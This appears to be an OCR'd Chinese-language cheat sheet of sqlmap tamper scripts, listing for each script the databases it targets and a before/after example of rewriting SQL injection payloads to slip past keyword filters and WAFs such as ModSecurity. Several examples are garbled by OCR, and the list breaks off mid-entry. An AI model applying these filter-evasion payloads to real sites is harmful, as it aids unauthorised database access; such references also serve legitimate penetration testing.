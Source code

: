 ```
concat2concatws.py
功能：CONCAT () ==> CONCAT_WS ()，用于过滤了 CONCAT () 函数的情况
平台： MySQL 5.0
举例：CONCAT (1,2) ==> CONCAT_WS (MID (CHAR (0),0,0),1,2)

equaltolike.py
功能：= ==> LIKE，用于过滤了等号”=” 的情况
平台：Mssql 2005、MySQL 4, 5.0 and 5.5
举例：SELECT * FROM users WHERE id=1 ==> SELECT * FROM users WHERE id LIKE 1

greatest.py
功能：> ==> GREATEST
平台：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：1 AND A > B ==> 1 AND GREATEST (A, B+1)=A
a 和 b+1 比较，取两者中的最大值为 a；则 a >= b+1，亦即 a > b

halfversionedmorekeywords.py
功能：空格 ==> / !0 （在关键字前添加注释）
平台：MySQL 4.0.18, 5.0.22（Mysql < 5.1）
举例：union ==> /!0union

ifnull2ifisnull.py
功能：IFNULL (A, B) ==> IF (ISNULL (A), B, A)
平台：MySQL 5.0 and 5.5
举例：IFNULL (1, 2) ==> IF (ISNULL (1),2,1)

informationschemacomment.py
功能：
在 information_schema 后面加上 // ，用于绕过对 information_schema 的情况
retVal = re.sub(r”(?i)(information_schema).”, “g<1>/ /.”, payload)
平台：All
举例：select table_name from information_schema.tables ==> select table_name from information_schema/**/.tables

lowercase.py
功能：将 payload 里的大写转为小写
平台：Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==> select table_name from information_schema.tables

modsecurityversioned.py
功能：用注释来包围完整的查询语句，用于绕过 ModSecurity 开源 waf
平台：MySQL 5.0
举例：1 AND 2>1–  ==> 1 /!30874AND 2>1/–

modsecurityzeroversioned.py
功能：用注释来包围完整的查询语句，用于绕过 waf ，和上面类似
平台：Mysql
举例：1 and 2>1–+ ==> 1 /!00000and 2>1/–+

multiplespaces.py
功能：围绕 SQL 关键字添加多个空格
平台：All
举例：1 UNION SELECT foobar ==> 1   UNION   SELECT   foobar

nonrecursivereplacement.py
功能：关键字双写，可用于关键字过滤
平台：All
举例：1 UNION SELECT 2–  ==> 1 UNIONUNION SELESELECTCT 2–

overlongutf8.py
功能： 转换给定的 payload 当中的所有字符
平台：All
```